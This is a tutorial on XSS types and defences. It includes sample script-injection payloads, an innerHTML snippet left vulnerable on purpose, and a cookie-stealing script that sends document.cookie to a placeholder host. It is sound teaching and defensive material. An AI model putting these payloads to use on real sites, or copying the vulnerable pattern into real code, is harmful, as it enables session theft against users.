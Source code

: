 # Understanding Cross-Site Scripting (XSS) Vulnerabilities and Mitigation Techniques

Cross-Site Scripting (XSS) is a common web application vulnerability that allows an attacker to inject malicious scripts into content that is delivered to the end user. This article will cover the types of XSS vulnerabilities, how they can be exploited, and the best practices to mitigate them.

## 1. Types of XSS Vulnerabilities

### 1.1 Stored XSS
Stored XSS, also known as persistent XSS, occurs when an attacker is able to inject a script into a web application, and the injected script is stored on the server.

For example, consider a web application that allows users to submit comments. If the submitted comment is not properly sanitized, an attacker can submit a comment containing a malicious script:

```html
<script>alert('This is a stored XSS!');</script>
```

When other users view the comment, the script executes in their browser.

### 1.2 Reflected XSS
Reflected XSS happens when the injected script is reflected off a web server. It is typically delivered via a URL link, usually in a query parameter.

For instance, a URL like:
```plaintext
http://example.com/search?query=<script>alert('Reflected XSS');</script>
```

If the server reflects this user input directly into the HTML response, the script will execute when the user clicks the link.

### 1.3 DOM-based XSS
DOM-based XSS is a type of vulnerability that occurs when the client-side scripts of a web application modify the Document Object Model (DOM) and the modifications are based on user input. In this case, the payload doesn't necessarily go to the server.

An example of a vulnerable script might look like this:
```javascript
let userInput = location.hash.substring(1);
document.getElementById('output').innerHTML = userInput;
```
If the URL is `http://example.com/#<script>alert('DOM XSS');</script>`, an attacker can inject malicious code.

## 2. Exploiting XSS Vulnerabilities
Exploitation of XSS vulnerabilities can lead to serious consequences, such as:
- **Session Hijacking**: Stealing user session cookies.
- **Phishing**: Redirecting users to a dummy site.
- **Malware Distribution**: Serving malicious software to users.

Here's a simple example of how an attacker might exploit reflected XSS:
```javascript
// A simple attack to steal cookies
<script>
  fetch('http://malicious.com/steal?cookie=' + document.cookie);
</script>
```

## 3. Mitigation Techniques
To defend against XSS vulnerabilities, developers should adopt multiple layers of defense. Here are some best practices:

### 3.1 Input Validation
Always validate user inputs. Use allow-lists to define acceptable input types, lengths, and formats. Example in JavaScript:
```javascript
function isValidInput(input) {
    const allowedInput = /^[a-zA-Z0-9]+$/;
    return allowedInput.test(input);
}
```

### 3.2 Output Encoding
Encode output to ensure that user input is treated as data, not code. For example, in PHP:
```php
$sanitized_input = htmlspecialchars($user_input, ENT_QUOTES, 'UTF-8');
echo $sanitized_input;
```

### 3.3 Use Content Security Policy (CSP)
CSP is a browser feature that helps prevent XSS by specifying which sources of content are trustworthy. A basic CSP header can look like this:
```plaintext
Content-Security-Policy: default-src 'self'; script-src 'self';
```

### 3.4 Regular Security Testing
Conduct regular security assessments including code reviews, vulnerability scanning, and penetration testing to identify and remediate XSS vulnerabilities promptly.

## Conclusion
Understanding and mitigating XSS vulnerabilities is crucial for web application security. By implementing input validation, output encoding, CSP, and regular security testing, developers can significantly reduce the risk of XSS attacks in their applications.
